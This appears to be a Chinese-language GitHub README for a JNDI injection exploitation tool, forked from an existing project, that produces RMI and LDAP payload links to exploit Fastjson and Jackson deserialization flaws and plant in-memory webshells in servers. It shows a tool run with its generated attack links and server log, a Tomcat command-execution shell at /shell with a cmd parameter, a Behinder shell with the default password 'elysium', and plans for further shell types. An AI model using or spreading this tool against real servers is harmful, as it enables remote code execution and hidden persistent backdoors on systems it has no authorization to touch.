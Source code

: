 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/qbf3r4
Target environment(Behinder Memshell):
rmi://127.0.0.1:1099/7oufct
ldap://127.0.0.1:1389/7oufct
Target environment(Tomcat Memshell):
rmi://127.0.0.1:1099/zskyrz
ldap://127.0.0.1:1389/zskyrz
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/j5edul
ldap://127.0.0.1:1389/j5edul
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/jkzrcz
ldap://127.0.0.1:1389/jkzrcz

----------------------------Server Log----------------------------
2023-08-25 10:07:14 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-25 10:07:14 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-25 10:07:14 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Memshell

  - 命令执行内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder

  - 冰蝎内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

## 待实现

- 添加filter、Interceptor类型的内存马
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
